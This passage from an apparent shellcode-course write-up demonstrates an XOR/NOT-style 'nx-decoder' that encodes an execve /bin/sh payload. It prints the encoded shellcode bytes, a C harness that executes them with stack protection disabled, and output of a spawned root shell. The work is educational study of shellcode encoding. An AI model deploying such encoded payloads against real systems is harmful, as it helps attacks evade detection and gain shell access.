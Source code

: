 Upon confirmation of no `NULL` characters, the shellcode can be extracted using the bash one-line command outlined in previous posts. The resulting `nx-decoder` shellcode is shown below.

```shell
\xeb\x0e\x5e\x80\x3e\x7c\x74\x0d\x80\x36\xe4\xf6\x16\x46\xeb\xf3\xe8\xed\xff\xff\xff\x2a\xdb\x4b\x73\x34\x34\x68\x73\x73\x34\x79\x72\x75\x92\xf8\x4b\x92\xf9\x48\x92\xfa\xab\x10\xd6\x9b\x7c
```

#### Demonstrating the Decoder
As demonstrated in previous posts, the `sc_test.c` program can be used to test the `nx-decoder` shellcode. The C program with the the shellcode from `nx-decoder` is shown below.

```c
#include <stdio.h>
#include <string.h>

/*
To compile:
gcc -m32 -fno-stack-protector -z execstack sc_test.c -o sc_test
*/

unsigned char shellcode[] = \ 
    "\xeb\x0e\x5e\x80\x3e\x7c\x74\x0d"
    "\x80\x36\xe4\xf6\x16\x46\xeb\xf3"
    "\xe8\xed\xff\xff\xff\x2a\xdb\x4b"
    "\x73\x34\x34\x68\x73\x73\x34\x79"
    "\x72\x75\x92\xf8\x4b\x92\xf9\x48"
    "\x92\xfa\xab\x10\xd6\x9b\x7c";

int main(void)
{
    printf("Shellcode Length: %d\n", strlen(shellcode));
    int (*ret)() = (int(*)())shellcode;
    ret();
}
```

The above program is compiled using the command shown below, as suggested in the commented program code.

```shell
root@kali:~/workspace/SLAE# gcc -m32 -fno-stack-protector -z execstack sc_test.c -o sc_test
```

With the program compiled, `sc_test` can now be executed. If the decoding process is succesful, then a new shell will be spawned through the `/bin/sh` command in the `execve-stack` payload. The output of running `sc_test` is shown below.

```shell
root@kali:~/workspace/SLAE# ./sc_test
Shellcode Length: 47
# id
uid=0(root) gid=0(root) groups=0(root)
# ls -lah | grep nx-decoder
-rwxr-xr-x  1 root root 4.6K Oct 19 11:34 nx-decoder
-rw-r--r--  1 root root  428 Oct 19 11:34 nx-decoder.nasm
-rw-r--r--  1 root root  560 Oct 19 11:34 nx-decoder.o
# 
```
